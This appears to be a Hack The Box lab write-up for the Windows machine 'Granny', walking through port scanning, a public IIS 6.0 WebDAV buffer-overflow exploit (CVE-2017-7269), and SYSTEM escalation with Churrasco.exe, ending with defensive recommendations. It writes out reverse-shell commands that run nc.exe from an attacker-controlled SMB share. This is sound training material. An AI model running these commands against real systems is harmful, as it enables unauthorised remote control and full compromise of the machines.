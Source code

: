 # HTB - Granny

**IP Address:** `10.10.10.15  
**OS:** Windows Server 2003  
**Difficulty:** Easy  
**Tags:** #IIS6, #WebDAV, #BufferOverflow, #SeImpersonatePrivilege, #Churrasco, #Windows-Exploitation

---
## Synopsis

Granny is an easy Windows machine vulnerable to a classic **IIS 6.0 WebDAV buffer overflow (CVE-2017-7269)**.  
Exploitation leads to an initial shell as a low-privileged user. Privilege escalation is achieved by abusing the **SeImpersonatePrivilege** via **Churrasco.exe** on Windows Server 2003 to obtain `NT AUTHORITY\SYSTEM`.

---
## Skills Required

- Basic Windows service enumeration  
- Knowledge of IIS and WebDAV vulnerabilities  
- Understanding of Windows privilege escalation techniques  

## Skills Learned

- Exploiting **IIS 6.0 PROPFIND buffer overflow**  
- Abusing **SeImpersonatePrivilege** on legacy Windows systems  
- Using **Churrasco.exe** for SYSTEM escalation  

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

We begin by checking if the target is alive with ICMP:

```bash
ping -c 1 10.10.10.15
```

![](GitHubv2/HackTheBox/EASY/Granny/screenshots/ping.png)

The machine responds, confirming it is alive.

---
### 1.2 Port Scanning

We scan all 65,535 TCP ports to identify open services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.15 -oG allPorts
```

![](GitHubv2/HackTheBox/EASY/Granny/screenshots/allports.png)

Extract the open ports:

```bash
extractPorts allPorts
```

![](GitHubv2/HackTheBox/EASY/Granny/screenshots/extractports.png)

Only port **80/tcp** is open.

---
### 1.3 Targeted Scan

We run a deeper scan with version detection and default NSE scripts:

```bash
nmap -p80 -sC -sV 10.10.10.15 -oN targeted
```

```bash
cat targeted -l java
```

![](GitHubv2/HackTheBox/EASY/Granny/screenshots/targeted.png)

**Findings:**

| Port | Service | Version/Description |
|------|---------|---------------------|
| 80   | HTTP    | Microsoft IIS 6.0 with WebDAV enabled |

The service runs **IIS 6.0 WebDAV**, an outdated version known to be vulnerable.

---
## 2. Exploitation – IIS 6.0 WebDAV Buffer Overflow

During the targeted scan we identify **WebDAV**, a set of HTTP extensions that allows collaborative editing and file management. IIS 6.0 is known to be vulnerable to **CVE-2017-7269**.

Exploit reference: [IIS6 Exploit (CVE-2017-7269)](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269)

We clone the exploit:

```bash
git clone https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269
```

![](GitHubv2/HackTheBox/EASY/Granny/screenshots/exploit.png)

This is a classic **buffer overflow** triggered via the **PROPFIND** WebDAV request:

![](GitHubv2/HackTheBox/EASY/Granny/screenshots/exploit_propfind.png)

The exploit script requires:

- `targetip`  
- `targetport`  
- `reverseip`  
- `reverseport`

We run the exploit and set up a listener with `nc`:

```bash
python2 iis6\ reverse\ shell 10.10.10.15 80 10.10.14.2 443
```

![](GitHubv2/HackTheBox/EASY/Granny/screenshots/exploit_run.png)

✅ Reverse shell obtained.

---
## 3. Post-Exploitation Enumeration

We check our privileges and system structure:

![](GitHubv2/HackTheBox/EASY/Grandpa/screenshots/whoami.png)

On Windows Server 2003, user profiles are located in **`Documents and Settings`** instead of `Users`:

![](GitHubv2/HackTheBox/EASY/Granny/screenshots/users.png)

Checking privileges:

![](GitHubv2/HackTheBox/EASY/Granny/screenshots/priv.png)

We have **SeImpersonatePrivilege** enabled, which can be exploited for privilege escalation.

---
## 4. Privilege Escalation – Churrasco.exe

Normally, **JuicyPotato** would be used, but it does not support Windows Server 2003 due to missing CLSIDs. 

![](GitHubv2/HackTheBox/EASY/Granny/screenshots/JP_clsid.png)

Instead, we use **Churrasco.exe**, a community version adapted for Windows Server 2003.

Exploit reference: [Privilege Escalation – Churrasco.exe](https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/)

We upload `churrasco.exe` via an SMB share:

```bash
impacket-smbserver smbFolder $(pwd)
```

On the victim:

```powershell
dir \\10.10.14.2\smbFolder\
copy \\10.10.14.2\smbFolder\churrasco.exe churrasco.exe
```

![](GitHubv2/HackTheBox/EASY/Granny/screenshots/upload_churrasco.png)

Move to `Temp` directory if copying fails.  

Running without arguments fails, so we must specify a command:

![](screenshots/execute_churrasco.png)

To get a more stable shell, we upload `nc.exe` via SMB and then execute it with Churrasco:

```bash
.\churrasco.exe "\\10.10.14.2\smbFolder\nc.exe -e cmd 10.10.14.2 4444"
```

If it fails, try renaming the share or copying locally:

```bash
.\churrasco.exe "nc.exe -e cmd 10.10.14.2 4444"
copy "\\10.10.14.2\smb\nc.exe" nc.exe
```

![](GitHubv2/HackTheBox/EASY/Grandpa/screenshots/whoami_churrasco.png)

✅ Privilege escalation successful – we are `NT AUTHORITY\SYSTEM`.

---
## 5. Flags

With SYSTEM access, we can retrieve both flags:

![](GitHubv2/HackTheBox/EASY/Granny/screenshots/root_user_flag.png)

✅ **User flag obtained**  
✅ **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. **Port Scanning** → Detected IIS 6.0 on port 80.  
2. **WebDAV Buffer Overflow (CVE-2017-7269)** → Remote code execution with reverse shell.  
3. **Privilege Escalation** → Abused `SeImpersonatePrivilege` using **Churrasco.exe**.  
4. **Post-Exploitation** → Retrieved user and root flags as SYSTEM.

---
## Defensive Recommendations

- **Upgrade IIS 6.0**: It is end-of-life and should be replaced with a supported version.  
- **Disable WebDAV** if not required.  
- **Restrict Privileges**: Remove `SeImpersonatePrivilege` from unnecessary accounts.  
- **Monitor for Exploits**: Log and alert on abnormal WebDAV requests such as `PROPFIND`.  
